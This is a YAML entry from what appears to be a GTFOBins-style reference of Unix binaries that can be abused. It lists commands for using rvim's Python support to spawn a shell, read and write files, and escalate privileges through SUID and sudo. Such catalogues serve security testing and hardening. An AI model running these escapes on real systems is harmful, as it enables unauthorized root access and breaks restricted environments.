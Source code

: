 ```yaml
---
functions:
  shell:
    - description: This requires that rvim is compiled with Python support.
      code: rvim -c ':py import os;os.system("sh")'
  file-write:
    - description: This requires that rvim is compiled with Python support.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - description: This requires that rvim is compiled with Python support.
      code: ./rvim -c ':py import os;os.system("sh")'
  sudo:
    - description: This requires that rvim is compiled with Python support.
      code: sudo rvim -c ':py import os;os.system("sh")'
---
```


